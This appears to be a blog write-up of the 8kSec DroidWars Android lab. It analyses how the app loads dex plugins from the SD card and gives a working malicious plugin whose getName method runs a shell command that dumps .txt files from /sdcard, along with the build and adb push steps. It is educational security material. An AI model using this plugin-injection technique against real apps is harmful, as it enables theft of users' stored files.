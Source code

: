 ```yaml
---
title:  "8kSec DroidWars Writeup"
date:   2025-10-03T16:32:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for DroidWars challenge from 8kSec Android Labs. 

```
Goal:
Goal is to create a plugin that appears legitimate but contains hidden code that, when loaded in DroidWars, steals files stored on the SD card without requiring any additional permissions.
```

## Static Analysis

![](screen1.png)

Main function of application is showing game characters and their statistics on screen. Every character is a plugin file that loaded from spesific diretory on device. When we open the app in emulator, it shows a pikachu character as example. Also we can refresh the list, clear the plugins, check for malicious plugins and open the debug screen on main activity on settings screen. Lets start our analysis with jadx.

### Code Analysis

Manifest file have only one activity, MainActivity. In MainActivity code, `loadExternalPlugin` method is important for us.With `checkStoragePermissionAndLoadPlugins`, app checking for external storage access and after that it calls that function.

![](load_plugin.png)

`getAvaliablePlugins` method checks `/sdcard/PokeDex/plugins` directory for external plugins files with `.dex` file extension. If any dex file found, load it with `loadPlugin` method from `pluginLoader` class.

````java
public final PokemonPlugin loadPlugin(String pluginName)

...
...
...

DexClassLoader dexClassLoader = new DexClassLoader(file2.getAbsolutePath(), this.context.getDir("dex", 0).getAbsolutePath(), null, this.context.getClassLoader());
        setupOutputMonitoring();
        Object loadSimplePlugin = loadSimplePlugin(dexClassLoader, pluginName);
        if (loadSimplePlugin != null) {
            Log.d(TAG, "Successfully loaded SimplePlugin implementation");
            Function1<? super String, Unit> function14 = this.onLogMessage;
            if (function14 != null) {
                function14.invoke("Successfully loaded SimplePlugin implementation");
            }
            return new SimplePluginAdapter(loadSimplePlugin);
        }
        for (String str3 : CollectionsKt.listOf((Object[]) new String[]{pluginName + "Plugin", "MaliciousPlugin", StringsKt.removeSuffix(pluginName, (CharSequence) "_copy") + "Plugin", "com.eightksec.droidwars.plugin." + pluginName + "Plugin"})) {
            try {
                String str4 = "Attempting to load class: " + str3;
                Function1<? super String, Unit> function15 = this.onLogMessage;
                if (function15 != null) {
                    function15.invoke(str4);
                }
                loadClass = dexClassLoader.loadClass(str3);
            } catch (ClassNotFoundException unused) {
                String str5 = "Class not found: " + str3;
                Function1<? super String, Unit> function16 = this.onLogMessage;
                if (function16 != null) {
                    function16.invoke(str5);
                    Unit unit = Unit.INSTANCE;
                }

...
...
...
````
`loadPlugin` method generates DexClassLoader object from given dex files and calls `loadSimplePlugin` method with this class loader object.

````java
private final Object loadSimplePlugin(ClassLoader classLoader, String str) {
        Class<?> loadClass;
        for (String str2 : CollectionsKt.listOf((Object[]) new String[]{String.valueOf(StringsKt.removeSuffix(str, (CharSequence) "Plugin")), String.valueOf(str), "MaliciousPlugin"})) {
            try {
                String str3 = "Attempting to load SimplePlugin implementation: " + str2;
                Log.d(TAG, str3);
                Function1<? super String, Unit> function1 = this.onLogMessage;
                if (function1 != null) {
                    function1.invoke(str3);
                }
                loadClass = classLoader.loadClass(str2);
                Intrinsics.checkNotNull(loadClass);
            } catch (ClassNotFoundException unused) {
            ...
            ...
            //some error catch here
            ...
            ...
            }
            if (isSimplePluginImplementation(loadClass)) {
                String str6 = "Found SimplePlugin implementation: " + str2;
                Log.d(TAG, str6);
                Function1<? super String, Unit> function14 = this.onLogMessage;
                if (function14 != null) {
                    function14.invoke(str6);
                }
                classLoader = loadClass.newInstance();
                return classLoader;
            }
            Unit unit3 = Unit.INSTANCE;
        }
        return null;
    }


````
`loadSimplePlugin` method gets plugin name and remove the "Plugin" suffix from it if exist. After that it generate class name list and try to load them in for loop.

```java
// For example: Your plugin name is: TestPlugin.dex


CollectionsKt.listOf((Object[]) new String[]{String.valueOf(StringsKt.removeSuffix(str, (CharSequence) "Plugin")), String.valueOf(str), "MaliciousPlugin"})

// this code generate [Test,TestPlugin,MaliciousPlugin] list and loadClass function try to load them as class

```
But if we set our class name same with dex file name and  give our dex file name like "ClassName.dex or ClassNamePlugin.dex", loadClass method probably give "class not found" error. Because loadClass method use fully qualified class name. For loading the our class without error, we need to set our dex file name as `package_name.class_name.dex`

```
Example:

I will set my class name as 'Pwn'
My package name : 'com.eightksec.droidwars.plugin'

loadClass method expect a 'com.eightksec.droidwars.plugin.Pwn' for loading that class.

loadSimplePlugin method remove suffix from plugin name and use the result as class name, so i need to set my plugin file name as

'com.eightksec.droidwars.plugin.Pwn.dex' 

```
Also `loadSimplePlugin` method checks the plugin format with `isSimplePluginImplementation` method.

````java
private final boolean isSimplePluginImplementation(Class<?> cls) {
        try {
            Method method = cls.getMethod("getName", new Class[0]);
            Method method2 = cls.getMethod("getType", new Class[0]);
            Method method3 = cls.getMethod("getAllData", new Class[0]);
            if (Intrinsics.areEqual(method.getReturnType(), String.class) && Intrinsics.areEqual(method2.getReturnType(), String.class)) {
                return method3.getReturnType().isAssignableFrom(Map.class);
            }
            return false;
        } catch (Exception unused) {
            return false;
        }
    }
````
This method checks that if plugin contains `getName`,`getType` and `getAllData` methods and controls their return types. We have to implement our malicious plugin with this methods.

Here is my pwn plugin code:

```java
package com.eightksec.droidwars.plugin;

import java.util.*;
import java.util.*;
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Pwn{

    public String getName() {
        code_exec();
        return "Mal";
    }

    public String getType() {
        return "Pwn";
    }

    public Map<String, Integer> getAllData() {
        Map<String, Integer> stats = new HashMap<>();
        stats.put("HP", 30);
        stats.put("Attack", 31);
        stats.put("Defense", 32);
        stats.put("Sp. Attack", 33);
        stats.put("Sp. Defense", 34);
        stats.put("Speed", 40);
        return stats;
    }

    private void code_exec(){
    try {
        String[] cmd = {
            "/system/bin/sh", "-c",
            "for file in /sdcard/*.txt; do printf '%s\\n' \"$file\"; cat \"$file\"; done"
        };
        Process process = Runtime.getRuntime().exec(cmd);
        BufferedReader reader = new BufferedReader(
            new InputStreamReader(process.getInputStream())
        );
        String line;
        while ((line = reader.readLine()) != null) {
            System.out.println("Stolen data: " + line);
        }
        process.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    
}
```

I wrote `code_exec` method for shell command execution. I called it inside `getName` method because this method is called during listing the plugins. For creating dex file from java file, i got some help from stackoverflow and chatgpt :) 

```sh
$ javac Pwn.java

$ jar cvf Pwn.jar Pwn.class

$ ~/Android/Sdk/build-tools/32.0.0/d8 --output . Pwn.jar

$ mv classes.dex com.eightksec.droidwars.plugin.Pwn.dex

$ adb push com.eightksec.droidwars.plugin.Pwn.dex /sdcard/PokeDex/plugins

```
After pushing the plugin to plugin directory and start the app, we can see the logs that we send from our malicious plugin.

![](stolen.png)

In real life scenarios, instead of getting files, we can get reverse shell. Also we can put our malicious plugin via malicious application. But here thats enough :)

Thats all, see you!

PoC Video: [Youtube](https://youtu.be/iqDgs8dpDf8)
